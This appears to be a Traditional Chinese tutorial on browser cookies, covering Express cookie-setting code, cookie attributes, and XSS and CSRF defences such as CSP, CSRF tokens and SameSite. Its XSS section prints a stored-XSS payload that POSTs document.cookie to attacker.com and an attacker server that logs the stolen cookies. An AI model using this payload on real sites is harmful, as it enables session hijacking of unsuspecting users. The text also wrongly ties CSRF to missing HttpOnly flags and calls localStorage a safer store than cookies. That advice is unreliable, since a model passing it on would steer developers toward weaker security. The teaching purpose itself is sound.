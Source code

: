 # Cookie

## Cookie 的作用

    小型檔案(Browser 控制)
    存用戶的偏好設定、登入狀態、跟蹤用戶行為等資料。

## Server 端設定 Cookie 傳給 Client

![Cookie 流程圖](./images/cookie.png)

```js
const express = require("express");
const app = express();

app.get("/login", (req, res) => {
  // 設置一個名為 'user_id' 的 Cookie
  res.cookie("user_id", "12345", {
    expires: new Date("2025-10-21"),
    httpOnly: true, // 防止 JavaScript 訪問該 Cookie
    secure: true, // 僅在 HTTPS 連接下傳送
    sameSite: "Strict", // 防止跨站請求傳送 Cookie
  });

  res.send("Logged in and cookie set");
});

app.listen(3000, () => {
  console.log("Server running on http://localhost:3000");
});
```

### 2. Cookie 的結構

每個 Cookie 由以下幾部分組成：

    名稱：每個 Cookie 都有一個名稱，這個名稱用來識別儲存在用戶端的資訊。
    值：名稱對應的資料（例如，用戶名稱、登入憑證、設置等）。
    過期時間：Cookie 是否永久有效，還是會在某段時間後過期。如果沒有設置過期時間，則為 Session Cookie，當瀏覽器關閉後會自動失效。
    路徑（Path）：指定哪一部分網站能夠存取這個 Cookie。只有當請求的 URL 符合此路徑時，Cookie 才會被發送。
    域（Domain）：指定哪些域名下的網站可以讀取這個 Cookie。
    Secure：這個標誌表示只有在 HTTPS 協議下才會傳輸該 Cookie。
    HttpOnly：這個標誌表示這個 Cookie 無法被 JavaScript 訪問，只能由伺服器讀取。這是防範 XSS 攻擊的一個安全機制。

刪除 Cookie：Cookie 可以被刪除。通常是通過設定過期時間為過去的時間來達成。

### 4. 常見用途

    身份驗證：網站會使用 Cookie 來保存用戶登入狀態。當用戶登入後，伺服器會將一個包含用戶身份的 Cookie 發送給瀏覽器，這樣用戶下次訪問網站時就不需要重新登入。
    追蹤與分析：網站可以使用 Cookie 來記錄用戶的瀏覽行為，從而進行網站分析和個性化推薦。
    儲存偏好設置：Cookie 可以儲存用戶的網站偏好設置，如語言、主題等，讓用戶在每次訪問時都能看到自己偏好的頁面設定。

### 5. 安全與隱私

    由於 Cookie 會儲存用戶的敏感資料，因此它們也會成為攻擊的目標，以下是一些常見的安全問題：

    Cross-Site Scripting (XSS)：如果網站的 JavaScript 程式碼不夠安全，攻擊者可能會利用 XSS 漏洞來竊取 Cookie 資料。
    Cross-Site Request Forgery (CSRF)：如果 Cookie 不設置為 HttpOnly，攻擊者可以通過偽造請求來執行未經授權的操作。
    Cookie 竊取與偽造：攻擊者如果能夠取得或篡改 Cookie，則可能冒充用戶身份。

當網站的 JavaScript 程式碼存在 Cross-Site Scripting (XSS) 漏洞時，攻擊者可能會注入惡意的 JavaScript 代碼，這些代碼可以在用戶的瀏覽器中執行。這樣，攻擊者就有機會竊取用戶的 Cookie 或執行其他危險操作。

### XSS 攻擊流程示例

假設一個網站存在 XSS 漏洞，並且該網站允許用戶在留言板上提交文本。假如這個網站沒有適當過濾用戶輸入的內容，攻擊者就可以將惡意的 JavaScript 代碼注入到留言中。

範例：
用戶提交留言時沒有過濾內容： 攻擊者在留言板上提交以下內容：

```html
<script>
  fetch("https://attacker.com/steal-cookie", {
    method: "POST",
    body: document.cookie,
  });
</script>
```

這段代碼是惡意的，它會將當前頁面的 document.cookie（也就是用戶的 Cookie）發送到攻擊者控制的伺服器 attacker.com。

網站顯示留言時不過濾 HTML： 由於網站沒有過濾用戶輸入的 HTML，這段惡意的 JavaScript 代碼就會被直接插入到頁面中。

用戶查看留言板時觸發惡意腳本： 當其他用戶瀏覽該留言板頁面時，瀏覽器會執行頁面中的 JavaScript 代碼。由於該代碼包含了 document.cookie，它會將該用戶的 Cookie 資料發送到攻擊者的伺服器。

攻擊者獲得 Cookie 資料： 攻擊者可以在自己的伺服器上接收到目標用戶的 Cookie 資料，這些資料可能包含敏感信息，如身份認證令牌（Session ID）等。攻擊者可以利用這些 Cookie 資料冒充用戶，進行會話劫持。

如何防範 XSS 攻擊？
對用戶輸入進行過濾和編碼：

防止 HTML 標籤和 JavaScript 代碼被執行。應該對用戶的輸入進行 HTML 編碼或過濾。
使用像是 DOMPurify 這樣的庫來過濾潛在的惡意代碼。
使用內容安全策略（CSP，Content Security Policy）：

設定 CSP 標頭來限制哪些來源的腳本可以執行。這可以減少 XSS 攻擊的風險，因為即使攻擊者能夠注入惡意代碼，CSP 也可以阻止它的執行。
避免將敏感資料存儲在 Cookie 中：

如果必須使用 Cookie 存儲敏感信息，請確保設置 HttpOnly 和 Secure 標誌，這樣 JavaScript 就無法訪問這些 Cookie。
考慮使用更安全的儲存方法，例如 SessionStorage 或 LocalStorage。
定期檢查和測試應用程式的安全性：

定期執行安全掃描和滲透測試，及早發現和修補 XSS 漏洞。
總結
在沒有適當過濾的情況下，XSS 漏洞允許攻擊者注入並執行惡意的 JavaScript 代碼，從而竊取用戶的 Cookie 資料。透過有效的輸入過濾、使用 CSP、設置安全的 Cookie 旗標等措施，可以防止這類攻擊。

### 攻擊者 Server 範例碼

```ts
const express = require("express");
const app = express();
app.use(express.json());

app.post("/steal-cookie", (req, res) => {
  // 將被竊取的 Cookie 資料存儲到伺服器
  const stolenCookie = req.body; // 這裡是從受害者發送的 Cookie 資料
  console.log("Stolen Cookie:", stolenCookie);

  // 可以將資料存儲到數據庫或轉發到其他地方
  res.send("Cookie stolen!");
});

app.listen(3000, () => {
  console.log("Attacker server running on port 3000");
});
```

### 如何防範 CSRF 攻擊

使用 CSRF Token：

在所有敏感操作的請求中，要求用戶提交一個唯一的隨機 token，並且這個 token 只有在該用戶的會話中有效。伺服器會檢查這個 token 是否與當前請求中的 token 匹配，這樣可以防止 CSRF 攻擊。
例如，當用戶提交表單時，應該包含一個 CSRF token：

```html
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="unique_token_value" />
  <input type="text" name="amount" />
  <input type="text" name="to_account" />
  <button type="submit">Transfer</button>
</form>
```

伺服器會驗證這個 token，只有當它是正確的時候才執行轉帳操作。

設置 SameSite Cookie 屬性：

SameSite 屬性可以防止瀏覽器在跨站請求中自動發送 Cookie。這樣，如果攻擊者試圖發起跨站請求，瀏覽器不會自動附加用戶的 Cookie。
可以設置 SameSite 屬性為 Strict 或 Lax：

```http
Set-Cookie: session_id=abc123; SameSite=Strict;
SameSite=Strict：當請求來自不同來源時，瀏覽器不會發送 Cookie。
SameSite=Lax：對於某些類型的跨站請求（如 GET 請求），瀏覽器會發送 Cookie，但對 POST 等請求會限制。
```

驗證 Referer 或 Origin 標頭：

可以檢查 HTTP 請求中的 Referer 或 Origin 標頭來確保請求是來自合法的網站。例如，在處理敏感請求時，伺服器可以檢查這些標頭，確認請求是來自於自家網站。
使用 HttpOnly 和 Secure 標誌：

雖然 HttpOnly 主要是防範 XSS 攻擊，它同樣可以增加防範 CSRF 攻擊的安全性，因為攻擊者無法直接從 JavaScript 獲取 Cookie。
Secure 標誌確保只有在 HTTPS 請求中傳送 Cookie。
總結
CSRF 攻擊利用用戶在目標網站的有效會話，通過偽造請求來執行未經授權的操作。防範 CSRF 攻擊的方法包括使用 CSRF token、設置 SameSite Cookie 屬性、驗證 Referer 或 Origin 標頭等安全措施。這些措施能有效地保護網站免受這類攻擊。
